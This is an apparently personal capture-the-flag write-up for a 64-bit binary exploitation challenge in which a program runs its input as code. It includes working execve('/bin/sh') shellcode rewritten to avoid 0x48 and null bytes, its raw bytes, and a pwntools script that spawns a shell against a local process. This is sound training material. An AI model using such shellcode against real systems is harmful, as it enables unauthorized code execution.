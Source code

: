 ```yaml
---
slug: level-1
title: Level 1
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Level 1

<!--truncate-->

## The Challenge

File can be downloaded [here](/files/level_1/level-1) (Right click and open in new tab).

The goal of this challenge is to provide shellcode that gets executed for a shell.

## Analysis

I ran the executable and sent random output just to see what would happen. When I sent 'h', I received an output `Illegal instruction (core dumped)`. Since it interpreted 'h' as an instruction, I could try to feed it an input that would be a valid instruction.

Using ghidra, I looked in main and found that the executable reads into a buffer of 4096 bytes and then executes it directly in memory. The value `0x48` is treated as a bad byte so I had to create shellcode that would avoid `0x48` and null bytes.

`0x48` is a REX prefix that generally appears in shellcode where certain operations performed on 64 bit registers are used. I used the shellcode from pwntools as a template to start with.

## The Solve

```python3
shellcode = asm(shellcraft.amd64.linux.sh())
```

The above code provides the following shellcode:

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

Throwing it into an assembler reveals that there are a few `0x48` bytes that need to be replaced.

```asm
0:  6a 68                   push   0x68
2:  48 b8 2f 62 69 6e 2f    movabs rax,0x732f2f2f6e69622f
9:  2f 2f 73
c:  50                      push   rax
d:  48 89 e7                mov    rdi,rsp
10: 68 72 69 01 01          push   0x1016972
15: 81 34 24 01 01 01 01    xor    DWORD PTR [rsp],0x1010101
1c: 31 f6                   xor    esi,esi
1e: 56                      push   rsi
1f: 6a 08                   push   0x8
21: 5e                      pop    rsi
22: 48 01 e6                add    rsi,rsp
25: 56                      push   rsi
26: 48 89 e6                mov    rsi,rsp
29: 31 d2                   xor    edx,edx
2b: ff 34 25 00 00 00 00    push   QWORD PTR ds:0x0
32: 58                      pop    rax
33: 0f 05                   syscall
```

I replaced mov operations with pushes and pops in order to get rid of the bad bytes. I also replaced line 2b with `push 0x3b` for the syscall code for execve.

```asm
push 0x68
mov r15, 0x732f2f2f6e69622f
push r15
push rsp
pop rdi

push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi
push rsi
push 8
pop r14
add r14, rsp
push r14
push rsp
pop rsi
xor edx, edx
push 0x3b
pop rax
syscall
```

Now there are no more bad bytes.

`"\x6A\x68\x49\xBF\x2F\x62\x69\x6E\x2F\x2F\x2F\x73\x41\x57\x54\x5F\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xF6\x56\x6A\x08\x41\x5E\x49\x01\xE6\x41\x56\x54\x5E\x31\xD2\x6A\x3B\x58\x0F\x05"`

I use pwntools to send the payload to the program and successfully obtain a shell.

```python
#!/usr/bin/env python3

"""
Toast's submission for the challenge level-1.

This script can be used in the following manner:
python3 ./solve.py

Returns:
    An interactive shell
"""

from pwn import *

exe = ELF("./level-1")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']
context.arch = 'amd64'

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    io = process([exe.path])
    return io


def main():
    '''Return the flag.
    '''

    with conn() as io:
        shellcode = b"\x6A\x68\x49\xBF\x2F\x62\x69\x6E\x2F\x2F\x2F\x73" + \
                    b"\x41\x57\x54\x5F\x68\x72\x69\x01\x01\x81\x34\x24" + \
                    b"\x01\x01\x01\x01\x31\xF6\x56\x6A\x08\x41\x5E\x49" + \
                    b"\x01\xE6\x41\x56\x54\x5E\x31\xD2\x6A\x3B\x58\x0F\x05"
        io.send(shellcode)
        io.interactive()


if __name__ == '__main__':
    main()
```

![Shell output](/img/level_1/shell.png)

## References

[https://defuse.ca/online-x86-assembler.htm#disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)

[https://staffwww.fullcoll.edu/aclifton/cs241/lecture-instruction-format.html](https://staffwww.fullcoll.edu/aclifton/cs241/lecture-instruction-format.html)

[https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix](https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix)
